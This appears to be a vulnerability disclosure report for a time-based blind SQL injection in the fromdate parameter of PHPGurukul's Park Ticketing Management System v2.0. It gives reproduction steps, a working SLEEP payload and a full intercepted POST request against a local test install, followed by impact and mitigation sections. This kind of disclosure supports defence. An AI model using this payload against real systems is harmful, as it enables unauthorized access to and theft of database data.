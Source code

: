 # SQL Injection Vulnerability in Park Ticketing Management System (normal-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `normal-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `fromdate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `normal-bwdates-reports-details.php`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Normal People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104910.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104921.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704105021.png)
   
     attack payload    
```sql
    POST /Park-Ticketing-Management-System-Project/ptms/normal-bwdates-reports-details.php HTTP/1.1
    Host: 127.0.0.1
    Origin: http://127.0.0.1
    Accept-Language: zh-CN,zh;q=0.9
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Chrome/137.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate, br, zstd
    Sec-Fetch-Site: same-origin
    sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
    sec-ch-ua-mobile: ?0
    Cache-Control: max-age=0
    Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-normalreports.php
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Content-Length: 45

    fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp&todate=2025-07-16&submit=
```
    


## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  


